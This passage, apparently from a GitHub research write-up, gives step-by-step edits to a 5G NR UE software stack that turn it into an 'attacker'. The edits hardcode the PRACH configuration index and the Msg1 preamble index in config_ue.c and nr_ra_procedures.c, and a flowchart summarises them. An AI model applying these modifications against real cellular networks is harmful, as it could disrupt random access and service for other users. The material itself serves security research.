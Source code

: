 <b>1. Hardcode your choosen value into your attacker in `config_common_ue_sa()` function line 229 in `config_ue.c`</b>
```
  if (rach_ConfigCommon->msg1_SubcarrierSpacing)
    cfg->prach_config.prach_sub_c_spacing = *rach_ConfigCommon->msg1_SubcarrierSpacing;
  else {
    // If absent, the UE applies the SCS as derived from the prach-ConfigurationIndex (for 839)
    //int config_index = rach_ConfigCommon->rach_ConfigGeneric.prach_ConfigurationIndex; ///// WILFRID - Hardcode prach_ConfigIndex /////
    int config_index = 149; ///// WILFRID - Hardcode prach_ConfigIndex /////
    int format = get_format0(config_index, frame_type, mac->frequency_range);
    cfg->prach_config.prach_sub_c_spacing = get_delta_f_RA_long(format);
  }
```

<b>2. Hardcode your choosen value into your attacker in `config_common_ue()` function line 454 in `config_ue.c`</b>
```
    if (rach_ConfigCommon->msg1_SubcarrierSpacing)
      cfg->prach_config.prach_sub_c_spacing = *rach_ConfigCommon->msg1_SubcarrierSpacing;
    else {
      // If absent, the UE applies the SCS as derived from the prach-ConfigurationIndex (for 839)
      //int config_index = rach_ConfigCommon->rach_ConfigGeneric.prach_ConfigurationIndex; ///// WILFRID - Hardcode prach_ConfigIndex /////
      int config_index = 149; ///// WILFRID - Hardcode prach_ConfigIndex /////
      int format = get_format0(config_index, frame_type, mac->frequency_range);
      cfg->prach_config.prach_sub_c_spacing = format == 3 ? 5 : 4;
    }
```

<b>3. This is a flowchart to summarize what we did</b>

```mermaid
flowchart TD
    A(("config_common_ue_sa()")) --> B["//configure some
    ue's parameter"]
    B --> C["//fill config_index
    //according to gNB's
    //prach configuration"]
    C --> D["config_index = X
    //fill X with our value"]
    D --> E((return))
```

#### 2.1.3. Controlling Msg1 Attacker preamble ID

<b>1. Hardcode your attacker's preamble index by hardcoding your choosen value into `config_preamble_index()` function line 346 in `NR_MAC_UE/nr_ra_procedures.c`</b>

```
  int rand_preamb = (rand_r(&seed) % ra->ssb_ro_config.preambles_per_ssb);
  if (ra->ssb_ro_config.ssb_per_ro < 1)
    ra->ra_PreambleIndex = groupOffset + rand_preamb;
  else {
    int ssb_pr_idx = mac->ssb_list.nb_ssb_per_index[mac->mib_ssb] % (int)ra->ssb_ro_config.ssb_per_ro;
    ra->ra_PreambleIndex = groupOffset + (ssb_pr_idx * ra->ssb_ro_config.preambles_per_ssb) + rand_preamb;
  }
  ra->ra_PreambleIndex = 1; ///// WILFRID - hardcoding attacker preamble index /////
  AssertFatal(ra->ra_PreambleIndex < nb_of_preambles,
              "Error! Selected preamble %d which exceeds number of prambles available %d\n",
              ra->ra_PreambleIndex,
              nb_of_preambles);
```
